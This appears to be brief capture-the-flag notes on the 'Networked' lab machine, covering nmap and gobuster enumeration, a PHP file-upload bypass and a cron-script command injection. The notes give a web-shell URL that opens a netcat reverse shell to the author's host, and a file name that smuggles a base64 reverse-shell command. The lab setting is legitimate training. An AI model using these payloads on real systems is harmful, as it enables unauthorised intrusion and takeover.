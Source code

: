 # Summary



## about target

tip:  10.129.7.179

hostname:  Networked

Difficulty:  Easy



## about attack

+ file upload, change file extension. abc.php.gif
+ os command injection, exploit.





**attack note**

```bash
networked / 10.129.7.179

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

----interesting
/backup/backup.tar


---- http num

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log -x php,txt

upload.php

---- exploit
upload gif, exploit rce

http://10.129.7.179/uploads/10_10_14_78.php.gif?cmd=uname%20-a

http://10.129.7.179/uploads/10_10_14_78.php.gif?cmd=nc%2010.10.14.78%209001%20-e%20/bin/bash


---- local enum

echo -n 'bash -c "/tmp/9001"' | base64

touch '/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0Ljc4IDkwMDE= | base64 -d | sh;b'

ls -al
```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```



# Exploitation

upload file.

![image-20221030153022130](./images/image-20221030153022130.png)



![image-20221030135016193](./images/image-20221030135016193.png)



# Privesc



## local Enum

user www-data; exploit guly crontab



![image-20221030152347622](./images/image-20221030152347622.png)



exploit guly sudo, scripts.

![image-20221030145756089](./images/image-20221030145756089.png)



command injection.

![image-20221030145827252](./images/image-20221030145827252.png)



![image-20221030150043257](./images/image-20221030150043257.png)





## proof

```bash


```



